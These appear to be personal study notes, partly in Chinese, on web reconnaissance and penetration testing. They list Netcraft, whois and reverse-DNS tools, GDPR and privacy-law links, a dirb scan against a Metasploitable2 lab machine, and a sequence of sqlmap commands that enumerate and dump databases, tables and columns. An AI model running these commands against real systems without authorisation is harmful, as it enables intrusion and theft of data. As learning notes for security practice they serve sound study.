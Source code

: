 netcraft 不再提供服务
toolbar.netcraft.com
https://sitereport.netcraft.com/

好像有一个GDPR服务
https://www.netcraft.com/topics/gdpr/
https://search.bilibili.com/all?keyword=GDPR
https://www.udemy.com/courses/search/?src=ukw&q=GDPR
https://www.youtube.com/results?search_query=GDPR
《中华人民共和国个人信息保护法（草案）》解读|德勤
https://www2.deloitte.com/cn/zh/pages/risk/articles/china-draft-personal-data-protection-law.html
https://search.bilibili.com/all?keyword=%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF%E4%BF%9D%E6%8A%A4%E6%B3%95
https://www.bilibili.com/video/BV13D4y1X74B?from=search&seid=6747857310039500278

### reverse DNS
https://www.yougetsignal.com/tools/web-sites-on-web-server/
bing.com: ip:xx.xx.xx.xx

### whois lookup
https://whois.icann.org

### robot.txt
metasploitable2
dirb http://10.0.2.5/mutillidae/


owasp-esapi-php/

### https://github.com/TheRook/subbrute
brute

### sqlmap
sqlmap -u http://xxxx/?username=xxx
要用带参数的请求给他，工具会帮你找到可以注入的参数
sqlmap -u http://xxxx/?username=xxx --dbs 
sqlmap -u http://xxxx/?username=xxx --current-db 
sqlmap -u http://xxxx/?username=xxx --tables -D dbname 
sqlmap -u http://xxxx/?username=xxx --columns -T tName -D dbName 
sqlmap -u http://xxxx/?username=xxx -T tName -D dbName 

### owasp zap
scan policy

## 网络模型
